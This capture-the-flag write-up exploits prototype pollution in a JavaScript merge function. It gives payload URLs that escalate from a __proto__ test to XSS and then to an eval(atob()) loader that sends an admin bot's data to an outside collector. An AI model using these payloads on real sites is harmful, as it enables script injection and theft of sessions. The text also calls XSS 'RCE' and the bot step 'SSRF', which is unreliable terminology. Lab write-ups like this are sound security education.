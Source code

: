 # Kulkan (500 points) - Pentesting

![Alt text](images/image.png)

This problem is from kulkan sponsor. The challenge is to compliment Messi through customizing the compliment message with json. The json is parsed and the compliment message is displayed.

At the bottom we can see a hint: 
![Alt text](images/image-1.png)

This hint is seems familiar to us. It is a prototype pollution attack. The json is parsed and merged with the default json. The mergeObjects function is vulnerable to prototype pollution. We can pollute the prototype of the default json and add a new property to the default json. The new property will be added to the compliment message. The prototype pollution is well explained [here](https://portswigger.net/web-security/prototype-pollution).

Along with the hint, we need to do some OWASP framework, by starting with viewing contents and it's source code. We found a javascript that will do the job of Messi's compliment.
```js
const params = new URLSearchParams(window.location.search);
document.getElementById('input_json').value = params.get('input_json') || '';

let randomObject = {};

function mergeObjects(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) {
                target[key] = {};
            }
            mergeObjects(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
}

function applyUpdate() {
    const configStr = document.getElementById('input_json').value;
    let config = {};

    try {
        config = JSON.parse(configStr);
    } catch (e) {
        console.log("Invalid JSON, you can do better for Messi.");
        return;
    }

// Hey, you're doing a great job if you're here reviewing code. You've got this!
    let defaultConfig = { color: "blue", fontSize: "16px" };
    mergeObjects(defaultConfig, config);

    const complimentDiv = document.getElementById('compliment');

    if (defaultConfig.compliment) {
        complimentDiv.innerText = defaultConfig.compliment;
    }
    if (defaultConfig.color) {
        complimentDiv.style.color = defaultConfig.color;
    }
    if (defaultConfig.fontSize) {
        complimentDiv.style.fontSize = defaultConfig.fontSize;
    }
    if (randomObject.win) {
        complimentDiv.innerHTML = randomObject.win;
    }
}

applyUpdate();
```
So the web page will get `input_json` from the url and parse it as json. The json will be merged with the default json. The merged json will be used to compliment Messi and will be displayed in the `compliment` div.

First payload from @ysl to test the prototype pollution:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":true}}
```

![Alt text](images/image-2.png)

So the payload is working, this is road to XSS-RCE.

Now building our XSS payload :
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x onerrpr=alert(1)>"}}
```

![Alt text](images/image-3.png)

The payload is working, now we can build our RCE payload with XSShunter:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x id=yourencodedpayloadwithmaliciouslink onerror=eval(atob(this.id))>"}}
```
![Alt text](images/image-4.png)

There is nothing when just browsing the link. We need to find where we can get the flag with this RCE. With my big brain, there is an Admin bot page that accepts URL and feels like this is SSRF that reveal secrets in the server.

![Alt text](images/image-5.png)

And we got the flag

![Alt text](images/image-6.png)

**FLAG:** EKO{Kulk4n__Quetz4}
